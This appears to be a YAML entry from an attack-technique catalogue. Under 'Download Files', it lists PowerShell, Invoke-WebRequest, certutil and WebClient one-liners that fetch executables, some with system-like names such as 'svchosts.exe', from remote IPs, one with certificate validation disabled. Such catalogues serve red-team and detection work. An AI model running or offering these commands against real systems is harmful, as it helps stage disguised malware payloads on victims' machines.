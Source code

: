 ```yaml
---
functions:
  file-transfer:
    - description: Download Files
      code: |
        powershell -c iwr -Uri http://192.168.1.1:8080/sysupdate.exe -usebasicparsing
        
        Invoke-Webrequest -Uri http://192.168.1.1:8080/sysupdate.exe -usebasicparsing
        
        certutil.exe -urlcache -f http://192.168.1.1:8080/get.exe get.exe

        powershell -c "[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};(New-Object System.Net.WebClient).DownloadFile('https://68.183.217.18:56789/svchosts.exe','svchosts.exe')"
resources: |

---
```

